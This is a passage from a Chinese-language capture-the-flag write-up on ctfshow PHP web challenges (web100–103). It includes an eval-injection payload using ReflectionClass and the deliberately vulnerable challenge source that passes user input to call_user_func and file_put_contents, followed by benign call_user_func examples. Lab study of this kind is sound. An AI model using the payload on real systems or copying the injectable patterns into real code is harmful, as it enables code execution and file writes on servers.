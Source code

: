 ```php
            eval("$v2('ctfshow')$v3");
        }
    }
}
?> 
```

```
修补100题非预期
payload
v1=1&v2=echo new ReflectionClass&v3=;
```

## web102,103(hex2bin函数)

```php
highlight_file(__FILE__);
$v1 = $_POST['v1'];
$v2 = $_GET['v2'];
$v3 = $_GET['v3'];
$v4 = is_numeric($v2) and is_numeric($v3);
if($v4){
    $s = substr($v2,2);
    $str = call_user_func($v1,$s);
    echo $str;
    file_put_contents($v3,$str);
}
else{
    die('hacker');
}
```

```
call_user_func 把第一个参数作为回调函数调用
第一个参数是被调用的回调函数，其余参数是回调函数的参数。 
```

例子

```php
<?php
function barber($type)
{
    echo "You wanted a $type haircut, no problem\n";
}
call_user_func('barber', "mushroom");
call_user_func('barber', "shave");
?>
```

```php
<?php //调用一个类里面的方法

class myclass {
    static function say_hello()
    {
        echo "Hello!\n";
    }
}
$classname = "myclass";
call_user_func(array($classname, 'say_hello'));
call_user_func($classname .'::say_hello');
$myobject = new myclass();
call_user_func(array($myobject, 'say_hello'));
?>
```
